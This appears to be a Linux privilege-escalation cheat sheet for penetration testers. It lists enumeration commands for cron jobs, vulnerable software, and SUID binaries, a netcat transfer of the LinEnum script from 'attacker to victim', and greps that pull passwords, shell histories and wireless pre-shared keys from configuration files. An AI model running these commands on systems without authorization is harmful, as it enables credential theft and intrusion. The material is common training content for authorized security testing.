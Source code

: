 #### Jobs/tasks

- Task or jobs that are system configured to run: `cat /etc/crontab` or `ls -als /etc/cron.*`
- Custom jobs configured as root and modifiable: `find /etc/cron* -type f -perm -o+w -exec ls -l {} \;`

#### Installed software Information

- `dpkg -l`
- Version vulnerable: `searchsploit "httpd 2.2"`

#### LinEnum

[LinEnum](https://github.com/rebootuser/LinEnum)

More info: [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/), [https://github.com/rebootuser](https://github.com/rebootuser)

We can transfer LinEnum from attacker to victim:  
`nc -w 3 <target ip> 1234 < LinEnum.sh` on attacker machine.  
`nc -lp 1234 > LinEnum.sh` on victim machine.  
`chmod +x LinEnum.sh`

`LineEnum.sh -h`  
`LinEnum.sh -k`

#### Cleartext credentials in Configuration files

- Passwords: `grep -r password /etc/*.conf 2>/dev/null`
- dotfiles with history in there name: `find /* -name *.*history* -print 2>/dev/null`
- Apache access.log file for "user" and "pass" strings: `cat /var/log/apache/access.log | grep -E "^user|^pass"`
- Dump preshared wireless keys from NetworkManger: `cat /etc/NetworkManager/system-connections/* | grep -E "^id|^psk"`

[Command execution with a MySQL UDF](https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)

We can use enum_configs in metasploit module to get common configuration of a session.  
Other important module is enum_system.

  

#### SUID Binaries

[SUID](https://en.wikipedia.org/wiki/Setuid)  
`'setuid' attribute set for root-owned binary`  
`ls -als /bin/ping` \- -rwsr-xr-x in this s denote suid is set.

- Well known SUID-root directories:  
`/bin/su`  
`/bin/mount`  
`/usr/bin/sudo`  
`/usr/bin/passwd`  
`/usr/bin/chsh`
